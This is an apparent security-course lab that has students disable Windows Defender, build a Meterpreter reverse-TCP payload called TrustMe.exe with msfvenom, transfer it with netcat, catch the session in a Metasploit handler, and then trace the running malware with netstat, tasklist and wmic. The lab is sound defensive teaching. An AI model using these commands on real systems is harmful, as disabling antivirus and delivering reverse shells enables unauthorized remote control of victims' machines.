 

# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let's get started.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

In the default powershell Window that opens, lets ensure that Defender is off;

PS C:\Users\adhd> `Set-MpPreference -DisableRealtimeMonitoring $true`

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means Defender was disabled.  We run above command to ensure that it is off for this lab.  It has a sneaky way of truning back on again..

And now, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`nc -l -p 2222 < TrustMe.exe`

Now, let's start the Metasploit Handler.  You will have to open another Ubuntu command prompt by selecting the down carrot from the upper tabs on the Windows Terminal and selecting Ubuntu.

Let's become root first!!!
$`sudo su -`

Now, let's start the Metasploit handler.

root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

It should look like this:

![](attachments/TrustMe.png)

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session.

![](attachments/Clipboard_2020-06-12-12-55-11.png)

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!! 

Now, let's open another Command Prompt from our Terminal:

![](attachments/Clipboard_2020-12-09-13-24-45.png)

Once we are in, lets start with looking at the network connections:

We will start with C:\>`net view`

In this example, our malware will not have any sessions at all:

![](attachments/Clipboard_2020-12-09-13-27-00.png)

We will get the same lack of connections from C:\>`net session`

![](attachments/Clipboard_2020-12-09-13-27-35.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try 

C:\>`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-41-32.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](attachments/Clipboard_2020-12-09-13-41-54.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

C:\>`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/Clipboard_2020-12-09-13-48-21.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

C:\>`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-49-49.png)

![](attachments/Clipboard_2020-12-09-13-50-01.png)

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist  

C:\>`tasklist /m /fi "pid eq [PID]"`

Your PID WILL BE DIFFERENT!

![](attachments/Clipboard_2020-12-09-13-55-22.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

C:\>`wmic process where processid=[PID] get commandline`

![](attachments/Clipboard_2020-12-09-13-58-16.png)

Ahh!!  Now we can see that the file was launched from the Edge temp downloads directory!  So, now we know it was downloaded from the Internet.


Let's see if we can see what spawned the process with wmic.

C:\> `wmic process get name,parentprocessid,processid`

![](attachments/Clipboard_2020-12-09-14-01-04.png)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the browser_broker.exe process.  This once again, shows us that this process was launched from the browser. 










 


